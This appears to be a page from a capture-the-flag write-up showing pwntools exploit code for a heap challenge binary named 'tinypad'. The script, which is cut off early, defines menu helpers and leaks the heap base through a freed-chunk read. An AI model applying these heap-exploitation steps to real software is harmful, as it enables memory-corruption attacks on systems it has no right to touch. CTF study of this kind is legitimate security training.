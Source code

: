 ```python
```

### 完整利用代码

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
tinypad = ELF("./tinypad")
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
    libc = ELF('./libc.so.6')
else:
    p = process("./tinypad")
    libc = ELF('./libc.so.6')
    main_arena_offset = 0x3c4b20
log.info('PID: ' + str(proc.pidof(p)[0]))


def add(size, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('a')
    p.recvuntil('(SIZE)>>> ')
    p.sendline(str(size))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)


def edit(idx, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('e')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil('Is it OK?\n')
    p.sendline('Y')


def delete(idx):
    p.recvuntil('(CMD)>>> ')
    p.sendline('d')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))


def run():
    p.recvuntil(
        '  ============================================================================\n\n'
    )
    # 1. leak heap base
    add(0x70, 'a' * 8)  # idx 0
    add(0x70, 'b' * 8)  # idx 1
    add(0x100, 'c' * 8)  # idx 2

    delete(2)  # delete idx 1
    delete(1)  # delete idx 0, idx 0 point to idx 1
    p.recvuntil(' # CONTENT: ')
    data = p.recvuntil('\n', drop=True)  # get pointer point to idx1
    heap_base = u64(data.ljust(8, '\x00')) - 0x80
    log.success('get heap base: ' + hex(heap_base))

```